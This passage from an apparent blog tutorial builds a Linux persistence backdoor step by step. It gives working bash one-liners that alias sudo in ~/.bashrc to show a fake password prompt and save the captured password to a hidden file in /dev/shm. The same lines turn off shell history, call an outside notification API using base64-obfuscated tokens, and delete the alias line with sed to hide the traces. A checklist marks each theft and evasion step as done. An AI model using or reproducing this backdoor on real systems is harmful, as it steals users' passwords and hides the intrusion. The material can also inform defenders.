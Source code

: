 We'll again add this to our backdoor and have it execute before the file is written:

```bash
alias sudo='HISTFILE="" curl -s -F "priority=1" -F "token=$(echo eW91cl9hcHBfdG9rZW4K | base64 -d 2>/dev/null)" -F "user=$(echo eW91cl91c2VyX3Rva2VuCg | base64 -d 2>/dev/null)" -F "message=$(echo SGVsbG8gV29ybGQK | base64 -d 2>/dev/null)" https://api.pushover.net/1/messages echo -n "[sudo] password for $USER: ";stty -echo;read passwd;stty echo;echo;echo $passwd|tee -a /dev/shm/.dW5kM3JmMTB3X3dhc19oZXJlCg|sudo -S -p ""'
```

- [x] Pick a good, hidden, place to write the stolen password
- [x] Ensure that the backdoor doesn't log itself in shell history
- [x] Have it notify me upon execution
- [ ] Ensure that the backdoor cleans up after itself

Honestly, a decent approach would be to avoid writing a file altogether and just have the password be shipped to us, but I'm not a huge fan of sending other people someone's password. This will work well enough.

### Cleaning Up After Ourselves
Not gonna lie, I thought my solution for this part was particularly hilarious. The only thing we have left to do is ensure our backdoor deletes itself from the `.bashrc` file, but it can only delete itself AFTER it executes, to ensure that `sudo` is backdoored.

This is where the great `sed` can come in handy.

Sed has a command `d` that can delete a matching line in a file. Obviously we don't want to delete anything important, so we need to use a long enough random value. 10 characters should be enough.

That would look something like `sed -i '/delete_this_line/d' filename`.

```bash
$ pwgen 10 1
mi7PhuuCei
```
 Cool, we have a value we can use.

 If you wanted to add additional lines to run in the file, we can just add a comment to the end of the line with this value and it'll delete those lines as well. Obviously you have to ensure that the deletion is the last command that will run though.

 We'll add this last part to our backdoor, which is getting quite long now:

```bash
alias sudo='HISTFILE="" curl -s -F "priority=1" -F "token=$(echo eW91cl9hcHBfdG9rZW4K | base64 -d 2>/dev/null)" -F "user=$(echo eW91cl91c2VyX3Rva2VuCg | base64 -d 2>/dev/null)" -F "message=$(echo SGVsbG8gV29ybGQK | base64 -d 2>/dev/null)" https://api.pushover.net/1/messages echo -n "[sudo] password for $USER: ";stty -echo;read passwd;stty echo;echo;echo $passwd|tee -a /dev/shm/.dW5kM3JmMTB3X3dhc19oZXJlCg|sudo -S -p ""' && sed -i '/mi7PhuuCei/d' ~/.bashrc #mi7PhuuCei
```

- [x] Pick a good, hidden, place to write the stolen password
- [x] Ensure that the backdoor doesn't log itself in shell history
- [x] Have it notify me upon execution
- [x] Ensure that the backdoor cleans up after itself

We finally built our ridiculous backdoor that cleans up after itself!

